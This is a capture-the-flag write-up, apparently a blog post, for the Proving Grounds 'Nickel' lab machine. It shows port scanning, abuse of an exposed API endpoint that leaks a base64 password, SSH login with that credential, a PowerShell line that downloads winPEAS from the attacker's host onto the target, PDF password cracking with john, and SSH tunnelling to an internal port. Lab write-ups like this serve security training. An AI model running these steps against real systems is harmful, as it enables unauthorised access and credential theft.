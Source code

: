 ```yaml
---
title: Proving-Ground-Nickel-Walkthrough
author: "RealFakeAccount"
date: "2022-06-18"
---
```


# Nickel

## Foothold

### Enumeration

```
Nmap scan report for 192.168.121.99
Host is up (0.019s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-18T20:30:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2022-06-17T20:16:10
|_Not valid after:  2022-12-17T20:16:10
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-06-18T20:29:03+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

Nmap shows 8089 and 33333 are http page.

Looking through 8089 page, it seems to send request to 33333 page.

If we visit 33333 page directly, it's `Invalid Token`

If we try to query the resource that we find in 8089,
for example, `http://192.168.121.99:33333/list-current-deployments`
then we get 

```html
<p>Cannot "GET" /list-current-deployments</P>
```

emmm.. Cannot "GET".

Therefore we send the payload to burpsuite and try to post it:

```
POST /list-current-deployments HTTP/1.1
Host: 192.168.121.99:33333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

test
```

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-14-13.png)

We get not implemented.

I tried to wfuzz it and see if I can replace the data field of post so I can get more information.

```bash
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -d "FUZZ" --filter "chars!=22" http://192.168.121.99:33333/list-current-deployments
```

It didn't work.

### Break Through

But if we request another resource, `/list-running-procs`, it works.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-17-09.png)

We can see here we have a password passed through command line.

It seems to be base64 encoded. Decode it, and we get: `NowiseSloopTheory139`

We can login through ssh using the credential we found: `ariah:NowiseSloopTheory139`

Finally, we can find local.txt on the ariah's Desktop.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-17-19-22.png)

## Privilege Escalation

Upload winpeas using:

```ps1
(New-Object Net.WebClient).DownloadFile("http://192.168.49.121/winPEASx64.exe","C:\Users\ariah\Downloads\w.exe")
```

We find a pdf file in the `C:/ftp` folder, but it needs a password.

We crack it with john. First use `pdf2john` to generate hash, then use `john` and `rockyou` to crack it.

the password is `ariah4168`.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-08-01.png)

A `Temporary Command endpoint` exists on the server.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-02-55.png)

We also find that the 80 port is actually open. I suspect it's only accessable from internal network. That's why we didn't see it in the nmap scan.

Tunnel through using ssh:

```bash
ssh -N -L 0.0.0.0:80:192.168.121.99:80 ariah@192.168.121.99
```

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-04-16.png)

We can easily grab the proof.txt file.

![](/posts/write-ups/PG/Nickle/Proving-Ground-Nickel-Walkthrough/2022-06-18-18-06-10.png)

Time cost: 2 hours 30 minutes